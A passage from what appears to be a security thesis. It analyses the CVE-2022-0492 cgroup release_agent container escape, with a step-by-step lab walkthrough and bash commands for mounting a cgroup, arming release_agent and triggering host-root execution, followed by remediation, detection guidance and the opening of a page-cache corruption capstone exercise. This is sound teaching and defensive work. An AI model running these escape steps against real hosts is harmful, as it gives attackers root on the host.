not sound where a user namespace is available. A process that creates a user
namespace holds `CAP_SYS_ADMIN` within it, may mount its own cgroup v1 hierarchy,
and is the owner of every file in the hierarchy it has just mounted — including
`release_agent`. The filesystem permission check therefore succeeds, not because
the process is privileged on the host, but because the notion of "root" against
which the check is evaluated is the namespace-local one.
 
The defect is thus best characterised not as a missing permission bit but as a
**mismatch of frames of reference**: the access check was *namespace-relative*,
while the effect it guarded was *namespace-absolute*. Writing to `release_agent`
is authorised against the writer's own namespace, yet the resulting execution
occurs with full privileges in the initial namespaces, as established in Section
8.3.2. An operation whose consequences escape the namespace was protected by a
check that does not.
 
The upstream fix, applied in February 2022, adds an explicit capability check to
the write handler, requiring both that the writing process hold `CAP_SYS_ADMIN`
and that the credentials with which the file was opened belong to the *initial*
user namespace [@linux-cgroup-release-agent-fix]. The second condition is not redundant: evaluating the credentials
captured at open time, rather than those current at write time, additionally
prevents a confused-deputy variant in which a privileged process opens the file
and passes the resulting descriptor to an unprivileged one. The corrected check
re-aligns the frame of reference of the guard with that of the effect.
 
**Position in the taxonomy.** Section 3.5.3 places this technique at the boundary
between the runtime and kernel categories, and the analysis above explains why.
The defect is unambiguously in the kernel — no configuration of the container and
no version of the runtime introduces it. Yet it is reached entirely through
primitives the container is legitimately entitled to use: an unprivileged process
creates a user namespace, mounts a filesystem it is permitted to mount, and writes
to a file it owns. No step in that sequence is anomalous in isolation. The
technique therefore demonstrates a property that the misconfiguration and runtime
categories do not: that isolation primitives which are individually correct may
compose into an escape when a kernel interface fails to account for their
interaction.

<div class="page_break"></div>

<figure>

<figcaption><span class="lbl">Figure.8.2</span>Composition of the three mechanisms, together with the absent
capability check, into the escape. Steps 1 to 5 are operations the container is
entitled to perform, each authorised within the attacker's own user namespace.
The defect is the gate at the centre: the write to <code>release_agent</code>
faces a filesystem permission check, which the attacker satisfies as
namespace-local owner of a hierarchy just mounted, and no capability check at
all. Step 6 executes in the host's initial namespaces with full root privilege.
</figcaption>
</figure>

<div class="page_break"></div>

## Exploitation Walkthrough

The technique proceeds in four movements, and the laboratory implements it with
two artefacts that run on opposite sides of the boundary. The first,
`exercises/04-cgroups-cve-2022-0492/shared/payload.sh`, executes *inside the
container*: it obtains a cgroup v1 hierarchy whose `release_agent` file it is
permitted to write, arms the notification, and causes the trigger condition. The
second, `malicious_release_agent.sh`, never runs inside the container at all: it
resides on the host filesystem and is executed *by the kernel*, as root, in the
host's initial namespaces, once the trigger fires. The separation between the two
files is not an organisational convenience but the structure of the vulnerability
itself, and the walkthrough below is organised around it.

The four movements are: obtaining a hierarchy whose `release_agent` may be
written; staging a payload at a path the *host* can resolve; arming the callback;
and emptying the cgroup so that the kernel fires it. Only the first differs
between the two routes described immediately below; movements two to four are
identical in each.

<div class="page_break"></div>

### Two routes to a single write

Stripped of preparation, the entire technique reduces to one operation: writing a
filesystem path into the `release_agent` file at the root of a cgroup v1
hierarchy. Everything preceding that write exists to make it permissible, and
everything following it exists to make it fire. There are two distinct ways for a
process inside a container to be permitted to make it, and conflating them is the
most common error in accounts of this vulnerability.

The first route is to hold `CAP_SYS_ADMIN` in the **initial** user namespace. A
container started with `--privileged`, or with `--cap-add=SYS_ADMIN` and a
permissive seccomp and LSM configuration, holds genuine host-wide administrative
authority; it may mount a cgroup hierarchy and write its `release_agent` because
it is, in the only sense the kernel recognises, privileged to do so. This route is
not a vulnerability and there is nothing to patch: it is the documented behaviour
of an over-permissioned container, a misconfiguration of the class analysed in
Exercise II, and it works on a fully patched kernel provided cgroup v1 is in use.

The second route is to hold `CAP_SYS_ADMIN` **only within a user namespace of
one's own creation**, obtained by an otherwise unprivileged process through
`unshare(2)`:

```bash
# The CVE-2022-0492 route: manufacture the capability rather than receive it.
unshare --user --map-root-user --mount --cgroup bash
```

Within that namespace the process is `root` and holds a full capability set, but
it is unprivileged with respect to the host, and a correct kernel must refuse it
any operation whose effects reach beyond the namespace. This route succeeds *only*
because the vulnerable kernel performed no capability check on the write at all,
as established in Section 8.4. This is the route taken by the original public
analysis of the vulnerability [@unit42-cve-2022-0492]. It is CVE-2022-0492 proper, and on a patched kernel
it fails at exactly one instruction — the write — while every preceding step
continues to succeed unchanged.

The laboratory target is configured along the first route, granting
`CAP_SYS_ADMIN` directly, so that the mechanism can be demonstrated
deterministically and its behaviour separated from the question of who was
permitted to invoke it. Prefixing the same script with the `unshare` invocation
above, against a container from which the capability has been withdrawn, converts
the demonstration into a reproduction of the CVE — and running that variant before
and after `restore-kernel.sh patch` isolates the missing capability check as the
single variable responsible, which is the remediation-validation discipline
required by Section 4.6. The mechanism examined in the remainder of this section
is common to both; only the authority under which the write is accepted differs.

<div class="page_break"></div>

### Movement 1 — a hierarchy whose `release_agent` may be written

The container's own `/sys/fs/cgroup` is of no use, for two independent reasons.
It is a `tmpfs` that merely holds the per-controller mount points; it is not a
cgroup hierarchy in its own right and therefore has no `release_agent` file at
all. The controller directories beneath it (`memory/`, `pids/`, `cpu/`, and the
rest) *are* hierarchies, but the runtime bind-mounts them read-only into the
container precisely so that a confined process cannot reconfigure the host's
resource control.

Both obstacles are circumvented by the same step, which is the structural heart of
the technique: rather than attempting to write an existing hierarchy, the attacker
mounts a **new** one.

```bash
mkdir "${MOUNT_POINT}"
mount -t cgroup -o none,name=escape cgroup "${MOUNT_POINT}"
```

The `-o none,name=escape` option requests a *named, controllerless* hierarchy: a
cgroup v1 tree with no subsystem attached, governing no resource whatsoever
[@man7-linux]. Three properties make it the ideal instrument.

- **It is new, and therefore writable.** Its root directory is created by this
  mount, owned by the mounting process's notion of root, and subject to none of
  the read-only restrictions the runtime applied to the pre-existing controller
  mounts.
- **It has a `release_agent` file regardless.** That file is a property of the
  *hierarchy*, not of any controller. A hierarchy that limits nothing and accounts
  for nothing nevertheless carries the full cleanup-notification interface, so the
  attacker gains the security-relevant facility while acquiring none of the
  functionality that would make the mount conspicuous.
- **It is always available.** In cgroup v1 a controller may be attached to at most
  one hierarchy at a time, so an attempt to mount a fresh hierarchy carrying
  `memory` or `pids` would fail or merely re-expose the host's existing tree.
  Requesting *no* controller sidesteps the constraint entirely: an arbitrary
  number of named hierarchies may coexist.

The mount point itself is immaterial — the laboratory script places it under
`/sys/fs/cgroup` for tidiness, but any writable directory serves, and `/tmp` is
the more robust choice because some runtime configurations remount the cgroup
`tmpfs` read-only. What matters is only that the hierarchy exists and that its
root is writable.

A child cgroup is then created, in the ordinary way, by creating a directory:

```bash
mkdir "${CGROUP_PATH}"                      # ${MOUNT_POINT}/escape_$$
```

<div class="page_break"></div>

### Movement 2 — staging the payload where the host will find it

The path written into `release_agent` is resolved in the **initial mount
namespace** when the callback fires (Section 8.3.2). It is therefore not a path in
the container's filesystem, and this is the point at which most first attempts
fail: a file that plainly exists from inside the container does not exist, at that
path, from where the kernel is standing.

Three routes make a file reachable from the host's view, in descending order of
realism:

- **The overlay merged directory.** A container's writable layer is an ordinary
  directory in the host's filesystem, typically under
  `/var/lib/docker/overlay2/<id>/merged`, and its host-side path is discoverable
  from inside the container by inspecting `/proc/self/mountinfo`. A file written
  by the container at `/exploit.sh` is simultaneously present to the host at
  `<merged>/exploit.sh`. This is the route a genuine intrusion takes, and it
  requires no cooperation from the host whatsoever.
- **Any bind mount.** In the laboratory, `./shared` on the VM is bound to
  `/shared` in the container, so a script written to `/shared/agent.sh` from
  inside is visible on the host under the exercise directory. This is a
  convenience of the exercise environment rather than a property of the
  vulnerability.
- **A file already present on the host.** The laboratory's `payload.sh` names a
  fixed host path and deliberately declines to create the file:

```bash
AGENT_PATH="/tmp/malicious_release_agent.sh"  # must exist on the HOST filesystem
echo "[*] Expecting release_agent payload on HOST at: ${AGENT_PATH}"
echo "[*] (this container cannot verify that path exists on the host)"
```

  The refusal is pedagogical. The script cannot verify the path, cannot create it,
  and says so, which forces the reader to confront the fact that the string being
  written is interpreted in a namespace the writer cannot observe. The second line
  of output is the entire lesson of Section 8.3.2 restated as an operational
  limitation.

<div class="page_break"></div>

### Movement 3 — arming the callback

Two writes arm the mechanism, and they address two different levels of the
hierarchy:

```bash
echo "${AGENT_PATH}" > "${MOUNT_POINT}/release_agent"
echo 1               > "${CGROUP_PATH}/notify_on_release"
```

`release_agent` exists only at the **root** of the hierarchy and names the binary
for the hierarchy as a whole; `notify_on_release` is a per-cgroup flag and is set
on the **child**, which is the cgroup whose emptying will be observed. Directing
either write at the wrong level is the second common practical failure, and it
fails silently rather than loudly: the file either does not exist, or exists and
governs a cgroup that will never empty.

The first of these two writes is the vulnerability. Every step before it is a
legitimate use of a facility the container is entitled to use, and every step
after it is the ordinary operation of a documented mechanism. This single line is
where a namespace-relative authorisation is exchanged for a namespace-absolute
effect, and it is the line the upstream fix guards.

### Movement 4 — emptying the cgroup

A process joins a cgroup by writing its process identifier into `cgroup.procs`.
The trigger condition is that the cgroup subsequently becomes *empty*:

```bash
(
    echo $$ > "${CGROUP_PATH}/cgroup.procs"
    sleep 0.1
)
sleep 1.1   # the kernel dispatches the agent asynchronously
```

When the last process leaves, `cgroup1_check_for_release()` observes that the
cgroup is unpopulated and that its `notify_on_release` flag is set, and queues
`cgroup1_release_agent()` as a work item. A kernel worker thread subsequently runs
that item, which calls `call_usermodehelper()` with the stored agent path as
`argv[0]` and the emptied cgroup's path, relative to the hierarchy root, as
`argv[1]`.

Two consequences of that dispatch mechanism govern the practical behaviour of the
exploit. The first is that delivery is **asynchronous**: the write that empties the
cgroup returns long before the payload executes, which is why the script waits
before inspecting for results, and why a callback that has not yet fired must not
be mistaken for one that failed. The second is that the payload is executed by a
descendant of a **kernel thread**, which is the concrete reason it inherits the
initial namespaces and the kernel's own credentials rather than anything belonging
to the container. Both facts are directly observable rather than merely asserted:
tracing `call_usermodehelper` with `ftrace` on the host, as documented in the
exercise's operational guidance, yields the stack
`call_usermodehelper` ← `cgroup1_release_agent` ← `process_one_work` ←
`worker_thread` ← `kthread`, in which the workqueue dispatch and the kernel-thread
ancestry are both explicit and no container process appears at any depth.

One implementation detail of the laboratory script deserves note, because it
sharpens the trigger condition rather than obscuring it. In `bash`, `$$` expands
to the identifier of the invoking shell and retains that value inside a subshell,
where the subshell's own identifier is `$BASHPID`. The process written into
`cgroup.procs` is therefore the exploit shell itself rather than the short-lived
subshell, and the cgroup consequently empties when the *script* terminates rather
than when the subshell returns — with the result that the marker file appears
immediately after the script's own summary reports having found nothing. The
observation is worth making because it isolates the condition precisely: what
matters is not that some process exits, but that the *last* member of the cgroup
does.

<div class="page_break"></div>

### The payload, and the return path across the boundary

`malicious_release_agent.sh` executes on the host, as root, in the host's mount
namespace. Reading the objective is trivial in that position — the marker file is
owned by `root` with mode `600`, and the helper's credentials are the kernel's:

```bash
cat /root/flag.txt > "${OUTPUT}"
```

Returning the result to the attacker is the more interesting half of the problem,
and the one that is usually elided. The attacker is still confined; the payload is
not. Writing to `/tmp` from the payload would write the *host's* `/tmp`, which the
container cannot read, and the escape would succeed while leaving its operator
none the wiser. The laboratory payload therefore inverts the filesystem asymmetry
of Section 8.3.2 and uses it in the opposite direction:

```bash
MERGED_DIR="$(docker inspect "${CONTAINER_NAME}" \
                --format '{{.GraphDriver.Data.MergedDir}}' 2>/dev/null)"
mkdir -p "${MERGED_DIR}/tmp"
OUTPUT="${MERGED_DIR}/tmp/flag_output_$(date +%s).txt"
```

The overlay merged directory is the host-side path whose contents are exactly what
the container observes as its own root. Writing to `<merged>/tmp` therefore causes
the file to appear inside the container at `/tmp`, where the polling step of
`payload.sh` finds it. The same property that allows an attacker to place an
executable where the host will resolve it allows a host-side payload to deliver
output where the container will read it: the direction of travel differs, the
asymmetry exploited is identical. The directory is resolved at runtime rather than
hard-coded because overlay identifiers are assigned per container instance and
change on every recreation — a detail that matters operationally, since a
hard-coded path is the difference between an exploit that works once and one that
works repeatedly.

The payload additionally writes to `/dev/kmsg`, so that the host's kernel ring
buffer records the invocation:

```bash
echo "[*] release_agent fired — output written to: ${OUTPUT}" > /dev/kmsg 2>/dev/null || true
```

This is exercise instrumentation rather than attacker tradecraft — a real intrusion
would avoid the kernel log rather than write to it — and it exists to separate the
two failure modes that a first attempt cannot otherwise distinguish: *the callback
never fired*, and *the callback fired but its output went somewhere unobservable*.
A `dmesg` line settles the question immediately, and the distinction between those
two states is precisely what the `ftrace` recipe in the exercise's guidance is
intended to make routine.

In a genuine intrusion the payload would be a reverse shell, a copy of `/bin/sh`
made set-user-ID on the host filesystem, or the installation of persistence; the
laboratory confines itself to reading a marker file, which is sufficient to
demonstrate the property under study — arbitrary code execution as host root — while
leaving the environment restorable.

### Confirmation and interpretation

The escape is confirmed by the recovery, from inside the container, of
`FLAG{release_agent_runs_in_initial_ns}`, a value written only to the host's
`/root/flag.txt` with mode `600` and present nowhere in the container image. The
host kernel log independently records the invocation, and, if tracing was armed
beforehand, the `ftrace` buffer records the call and the identity of the binary
executed.

As in Exercise III, no namespace is broken at any point. The container's mount,
PID, and network namespaces hold throughout, and no process inside the container
ever opens a file it was denied: the marker is read by a process the *kernel*
created, and its contents merely appear inside the container afterwards. Nor does
the container obtain any authority over the host that it did not already possess —
by the CVE route it obtains none at all, holding `CAP_SYS_ADMIN` over nothing but
a namespace of its own making. What occurs instead is that a kernel interface
accepted an instruction from within the boundary and carried it out on the other
side. The taxonomy (Section 3.4)
accordingly records the defeated layer not as a namespace but as the kernel's own
enforcement of the boundary between namespaces — which is why, uniquely among the
case studies so far, no configuration of the container can be described as the
fault, and why the mitigations enumerated below divide so sharply into one that
corrects the defect and several that merely place it out of reach.

<div class="page_break"></div>

## Preconditions and Applicability

The technique is not universally applicable, and the conditions under which it
succeeds are themselves instructive, since each corresponds to a mitigation.
 
| Precondition | Rationale |
|---|---|
| cgroup **v1** in use | cgroup v2 does not implement `release_agent`; the mechanism is absent and the hierarchy is unaffected. |
| Kernel predating the fix | Fixed in 5.4.177, 5.10.97, 5.15.20, 5.16.6, and 5.17-rc3 and later [@linux-cgroup-release-agent-fix]. |
| Unprivileged user namespaces permitted | The path by which the process *manufactures* `CAP_SYS_ADMIN` rather than receiving it. Required for the CVE route only (Section 8.5). |
| `unshare(2)` reachable from the container | Blocked by the default container seccomp profile; requires an unconfined or permissive profile. Required for the CVE route only. |
| No enforcing LSM policy | AppArmor or SELinux in enforcing mode denies the mount operation the technique requires. |

Only the first two rows are conditions of the *defect*. The remainder are
conditions of *reaching* it by the route that constitutes the vulnerability, and
they fall away entirely for a container that already holds `CAP_SYS_ADMIN` in the
initial user namespace: such a container needs no user namespace, no `unshare(2)`,
and no unpatched kernel, because it is authorised to perform the write outright.
The rows are therefore preconditions of CVE-2022-0492, not of the
`release_agent` mechanism, which remains available to any sufficiently privileged
container on any cgroup v1 host to this day.

Two observations follow. First, a container in a **default** Docker configuration
on a vulnerable kernel is generally *not* exploitable by this technique, because
the default seccomp profile denies `unshare(2)` and the default AppArmor profile
denies the mount [@unit42-cve-2022-0492; @docker-seccomp]. The population genuinely at risk comprises containers running
with relaxed security profiles, privileged containers, and deployments under
runtimes applying weaker defaults. Second, and more significant for the argument
of this thesis, every one of these mitigations operates by denying the attacker
*access to the vulnerable code path* rather than by correcting the defect. On an
unpatched kernel the flaw remains present; what the container's configuration
determines is only whether it can be reached. This is the same defensive posture
that Chapter 2 identified in the discussion of seccomp — the shrinking of attack
surface as a substitute for correctness — and it recurs, in a more acute form, in
the capstone of Chapter 9.
<div class="page_break"></div>

## Remediation

- **Patch the kernel.** The fix is present in 5.4.177, 5.10.97, 5.15.20, 5.16.6,
  and 5.17-rc3 and later [@cve-2022-0492]. On a patched kernel the capability check is enforced
  against the initial user namespace and the technique does not apply. This is the
  primary and definitive control.
- **Withhold `CAP_SYS_ADMIN`.** The patch closes the route by which the capability
  is *manufactured*; it does nothing about the route by which it is *granted*. A
  container holding `CAP_SYS_ADMIN` in the initial user namespace — whether through
  `--privileged` or through a narrowly targeted `--cap-add` — retains the ability
  to mount a controllerless cgroup v1 hierarchy and write its `release_agent` on a
  fully patched kernel, and the resulting escape is indistinguishable in effect
  from the one analysed here. Of the controls in this list, only migration to
  cgroup v2 closes that route as well.
- **Migrate to cgroup v2.** The unified hierarchy does not implement
  `release_agent`, replacing the usermode-helper callback with a file-based
  notification that userspace observes rather than a binary the kernel executes.
  This eliminates the class of defect rather than the instance, and is the more
  durable architectural remedy. Current distributions default to cgroup v2.
- **Retain the default seccomp profile.** Denying `unshare(2)` removes the
  container's route to a user namespace and therefore to the capability the
  technique requires [@docker-seccomp].
- **Retain an enforcing LSM profile.** AppArmor or SELinux in enforcing mode
  denies the `mount` operation on which the technique depends, and protects a
  container even on an unpatched kernel [@docker-apparmor].
- **Disable unprivileged user namespaces** where the workload does not require
  them, accepting the corresponding loss of unprivileged container functionality.
Consistent with the taxonomy's ordering principle (Section 3.6), it is notable
that a user namespace offers no containment here: the technique does not merely
survive the presence of a user namespace but *depends* on it. This is the first
case study in which a mechanism catalogued in Chapter 2 as a hardening measure
appears instead as the enabling condition, and it anticipates the capstone's
demonstration that at the kernel level the layered model ceases to constrain an
attacker at all.
<div class="page_break"></div>

## Detection Guidance

- Monitor for the creation of user namespaces by processes within containers,
  which is anomalous for most production workloads.
- Alert on a container process mounting a cgroup hierarchy, and on any write to a
  `release_agent` or `notify_on_release` file.
- Runtime policy instrumentation (for example, Falco) provides rules covering
  writes to `release_agent` and container-initiated user-namespace creation [@falco-rules], which
  detect the technique directly.
- Because the callback executes as a child of a kernel thread rather than of the
  container's process tree, correlate unexpected root process executions on the
  host with container activity rather than examining container process lineage
  alone. The kernel stack recovered by tracing `call_usermodehelper()` makes the
  reason explicit: the invocation's ancestry is a workqueue item on a `kworker`
  thread, with no container process at any depth, so a detection strategy founded
  on process lineage has nothing to match against.
- Treat `call_usermodehelper()` as the choke point it is. Every invocation of this
  class — `release_agent`, module autoloading, the core-dump helper — passes
  through that single kernel function, so instrumenting it yields a narrow and
  complete view of userspace execution initiated by the kernel. The exercise's
  operational guidance gives an `ftrace` recipe for exactly this, which is useful
  both as a laboratory verification tool and as a way of establishing the shape of
  the telemetry a production sensor claims to produce before relying on it.

<div class="page_break"></div>

# Exercise V: CVE-2026-31431 ("Copy Fail", Page-Cache Corruption)

## Objective

From a container that has been hardened according to every control established by
Exercises I to IV — unprivileged, all capabilities dropped, `no-new-privileges`
set, the default seccomp and AppArmor profiles applied, a read-only root
filesystem, a non-root user, a `pids` limit, and no host mount, socket or device
of any kind — obtain a controlled write into the memory of files the container
does not own, and use it to reach execution as root outside the container.

## Threat Scenario and Environment Setup

Every preceding case study has been defeated by a countermeasure. The Docker
socket of Exercise I need not be mounted; the `--privileged` flag of Exercise II
need not be set; the `runc` defect of Exercise III is fixed in a release that
predates this thesis by seven years; the `release_agent` path of Exercise IV
requires a permissive seccomp profile, an unconfined LSM policy and a cgroup v1
hierarchy, and closes if any one of the three is withdrawn (Section 8.6). The
progression set out in Section 1.4 has therefore, so far, been a progression of
*conditions*: each technique demands that some part of the isolation stack be
absent, defective or misconfigured, and the corresponding remediation consists in
restoring it.

This exercise is the terminal case of that progression, and it is included
precisely because it has no such condition. CVE-2026-31431 — disclosed on 29
April 2026 by Juno Im of Theori's Xint Code team, and added to CISA's Known
Exploited Vulnerabilities catalogue two days later — is a logic defect in the
Linux kernel's `algif_aead` module, the component that exposes the kernel's
authenticated-encryption implementations to userspace through the `AF_ALG`
socket family [@cve-2026-31431; @xint-copyfail; @cisa-kev]. Its consequence is a
deterministic, repeatable, four-byte write, at an attacker-chosen offset and with
an attacker-chosen value, into the *page cache* backing any file the attacking
process can open for reading [@unit42-copyfail]. The defect was introduced in
November 2017 by a performance optimisation and remained latent for eight and a
half years, which places every mainline kernel from 4.14 to 6.19.11 within its
scope and, with it, the stock kernel of essentially every Linux distribution
released in that period; fixes are carried by 6.18.22, 6.19.12 and 7.0
[@cert-eu-copyfail; @linux-algif-aead-revert]. It carries a CVSS v3.1 base score
of 7.8, and the public proof of concept is a 732-byte Python script that requires
no compiler, no kernel symbol offsets and no race window [@xint-copyfail].

Three properties make it the appropriate capstone for the argument of Section
2.8 rather than merely the most recent available vulnerability.

**It is reached through ordinary, permitted system calls.** The technique uses
`socket(2)`, `bind(2)`, `setsockopt(2)`, `accept(2)`, `sendmsg(2)`, `splice(2)`
and `recvmsg(2)`. Not one of these is privileged, not one is denied by the
default container seccomp profile as it stood at disclosure, and not one is
constrained by any capability. The `AF_ALG` interface is unprivileged *by
design*: it exists so that unprivileged userspace may use the kernel's
cryptographic implementations, and it therefore performs no capability check at
all [@man7-af-alg].

**It is not mediated by any container-specific state.** Exercise IV reached the
kernel through a mechanism — the user namespace — that is itself part of the
container abstraction, which is why removing that mechanism removes the
technique. Here there is no container-specific intermediary. The same syscall
sequence, issued from a container, from a virtual-machine guest's userland, from
an SSH session or from a CI runner, executes the same kernel code and produces
the same result. The container is not the attack surface; it is only the place
the attacker happens to be standing.

**It operates on state that is not namespaced.** The object the defect corrupts
is the page cache, and the page cache is indexed by the `address_space` of an
inode on the host's filesystem. No namespace partitions it, no cgroup accounts
for it, and no capability governs writing to it once the kernel has been
persuaded to do so on the attacker's behalf. This is the structural claim of
Section 2.8 reduced to a single concrete object: the five isolation layers of
Chapter 2 all describe what a process may *ask* the kernel to do, and none of
them describes what the kernel may do to itself.

**The laboratory target.** The exercise is provisioned on the kernel-target
snapshot (Section 4.4.2), whose pinned 5.4.0-90 kernel lies well within the
affected range and therefore serves this exercise as well as Exercise IV; a
container cannot substitute the kernel it shares, so the vulnerable version must
again be a property of the virtual machine rather than of the container. The
Docker Engine installed on that snapshot is pinned to a release predating 29.4.3,
whose default seccomp and AppArmor profiles were amended in response to this CVE
to deny `AF_ALG` socket creation (Section 9.6); the pin preserves the
pre-disclosure default, which is the configuration the exercise is designed to
study [@docker-copyfail-mitigation].

The container itself is defined by `exercises/05-capstone-cve-2026-31431/`, and
it is configured in a manner exactly opposite to that of Exercise IV. Nothing is
weakened to enable the technique. The workload is the hardened target of the
capstone rubric — the configuration a reader who has absorbed Exercises I to IV
would write — and the point of the exercise is what that hardening does and does
not achieve:

| Control applied | Established in | Effect on this technique |
|---|---|---|
| Not `--privileged`; `cap_drop: ALL` | Exercise II | None. The primitive requires no capability. |
| Default seccomp profile (`docker-default`) | Exercises II and IV | None at the time of disclosure: the profile denied `socket(AF_VSOCK, …)` but permitted `socket(AF_ALG, …)` [@juliet-copyfail-k8s]. |
| Default AppArmor profile | Exercises II and IV | None at the time of disclosure; the `deny network alg,` rule was added only afterwards [@docker-copyfail-mitigation]. |
| Non-root user (`uid 65534`) | Exercise V (here) | None. The primitive is available to any uid. |
| Read-only root filesystem | Exercise V (here) | None. The write does not traverse the filesystem write path at all. |
| No host mounts, sockets or devices | Exercise I | Narrows *which* files are reachable, but does not remove the primitive. |
| `pids_limit`, memory and CPU limits | Exercise IV | None. The technique is neither a resource-exhaustion nor a fork-based attack. |
| `no-new-privileges` | Exercise V (here) | Partial, and instructively so: it blocks the in-container setuid escalation route, without affecting the underlying write (Section 9.5). |

Only the last row constrains the attacker at all, and it constrains a
*consequence* of the primitive rather than the primitive itself. Independent
testing against Kubernetes clusters enforcing the `restricted` Pod Security
Standard with the `RuntimeDefault` seccomp profile confirmed the same result: a
non-root pod with all capabilities dropped created an `AF_ALG` socket and bound
the vulnerable algorithm without obstruction [@juliet-copyfail-k8s]. The
laboratory therefore deliberately runs the *hardened* container. A reproduction
against a deliberately weakened one would demonstrate nothing that Exercises I
and II have not already demonstrated.
<div class="page_break"></div>
**The laboratory artefacts.** The exercise directory follows the layout described
in Section 4.4.3 and comprises four components. The `Dockerfile` builds the
foothold image from a stock Ubuntu base and installs ordinary development and
inspection tooling — a C toolchain, Python 3, `strace` and `file` — so that the
reader may write their own probes; the setuid-root `su` binary that the base
image ships is deliberately left in place, since it is the canonical
page-cache-corruption target discussed in the vendor advisories (Section 9.5),
and no exploit material of any kind is included in the image. The
`docker-compose.yml` file defines the target as a single long-running container
carrying the security options tabulated above, together with one bind mount of
the exercise's `shared/` directory, which exists so that probes and notes may be
moved between the virtual machine and the foothold without repeated `docker cp`
invocations; as in Exercise IV, it is an ordinary bind mount conferring no
privilege the technique requires.

**Preconditions and the integrity reference.** `setup.sh` differs from its
counterparts in the earlier exercises in that it refuses to proceed unless five
conditions hold, and each of the five exists because the page cache is shared
host-wide rather than as a matter of form. It verifies that it is executing on
the kernel-target snapshot rather than the runtime target; that a clean-baseline
snapshot exists to roll back to, since corruption of the page cache is not
confined to the container that caused it and may leave the virtual machine in a
state that cannot be repaired from within it; that no container from Exercises I
to IV is running, as any such container would otherwise be contaminated silently
through the same shared cache; that the booted kernel lies within the affected
range, a patched kernel producing a confusing null result rather than a lesson;
and that the `AF_ALG` interface and the `algif_aead` module are present on the
host, without which the chain has no entry point. It then plants the objective
marker at `/root/flag.txt` on the virtual machine, readable only by root, and
records the SHA-256 digests of the candidate setuid binaries.

That last step is the exercise's principal instrument rather than its
housekeeping. `teardown.sh` stops the container, flushes the page cache with
`sync` followed by a write to `/proc/sys/vm/drop_caches` — which discards the
corrupted pages and forces the next access to re-read the unmodified bytes from
disk — and then re-verifies the recorded digests. A *match* after a successful
escalation is the expected outcome, and it is the empirical demonstration of the
defining property of this vulnerability: the file on disk was never written, only
the kernel's cached image of it. A mismatch would indicate that something other
than page-cache corruption had occurred. Because flushing the cache cannot undo
whatever a successful escalation did with root privilege, the teardown is
explicitly a soft reset; the full reset remains restoration of the clean-baseline
snapshot from the host (Section 4.4.2).

Understanding the defect requires five mechanisms, none of which is a
vulnerability in isolation and each of which is entirely legitimate on its own
terms: the kernel's userspace cryptographic interface and its socket protocol
(Section 9.3.1); the scatterlist representation through which the crypto
subsystem addresses memory (Section 9.3.2); the particular shape of an AEAD
request (Section 9.3.3); the zero-copy semantics of `splice(2)` and the pipe
buffer (Section 9.3.4); and the page cache, its indexing, and its relation to
the container filesystem (Section 9.3.5). The vulnerability is a property of
their composition, and Section 9.4 analyses that composition once the five are
in place. It is worth stating in advance why this is not a memory-safety bug of the
familiar kind: every write the kernel performs lies inside a validly allocated,
correctly mapped page whose bounds are never exceeded. What is violated is not a
length but an *ownership* invariant — a page that the kernel holds on behalf of a
read-only mapping ends up on the writable side of a cryptographic operation — and
sanitisers that check extents and lifetimes have nothing to report
[@retr0-copyfail].

<div class="page_break"></div>

## Background

### The Kernel Crypto API and the `AF_ALG` Socket Family

The Linux kernel implements a large body of cryptographic transformations for
its own use — `dm-crypt` for disk encryption, IPsec for network encryption,
`fscrypt`, module signature verification, and others. Since kernel 2.6.38 this
implementation is also exposed to userspace through a dedicated socket family,
`AF_ALG` (address family 38), so that applications may reuse the kernel's
algorithms, and in particular the hardware acceleration engines the kernel drives,
without linking a userspace cryptographic library [@man7-af-alg].

The interface is a socket protocol rather than a system call, and its shape
matters to what follows. A process first creates a socket of family `AF_ALG` and
type `SOCK_SEQPACKET`, then binds it to a `struct sockaddr_alg` naming a
transformation *type* and a specific *algorithm*:

```c
struct sockaddr_alg sa = {
  .salg_family = AF_ALG,
  .salg_type   = "aead",                              /* transformation class */
  .salg_name   = "authencesn(hmac(sha256),cbc(aes))", /* algorithm instance */
};
int fd = socket(AF_ALG, SOCK_SEQPACKET, 0);   /* no privilege required */
bind(fd, (struct sockaddr *)&sa, sizeof(sa));
```

The bound socket is a *template* socket: it holds the algorithm and its
long-lived parameters, which are set with `setsockopt(2)` — `ALG_SET_KEY` for the
key and, for authenticated encryption, `ALG_SET_AEAD_AUTHSIZE` for the length of
the authentication tag. Individual cryptographic operations are then performed on
*operation* sockets obtained by calling `accept(2)` on the template. Each
operation socket carries the data of one request: the payload is supplied with
`sendmsg(2)` or `splice(2)`, out-of-band parameters travel as control messages
(`ALG_SET_OP` selecting encryption or decryption, `ALG_SET_IV` for the
initialisation vector, `ALG_SET_AEAD_ASSOCLEN` for the length of the associated
data), and the result is collected with `read(2)` or `recvmsg(2)`, which is also
what causes the transformation to be executed [@man7-af-alg].
<div class="page_break"></div>

Two consequences follow. First, the interface is available to any process
whatever: there is no capability check on `AF_ALG`, because the facility is
intended for unprivileged use and exposes, in principle, only computation.
Second, binding an algorithm name triggers the kernel's module autoloader, so the
`algif_aead` module is loaded on demand by the very act of requesting it; the
attacking process need not find it already resident, and on distribution kernels
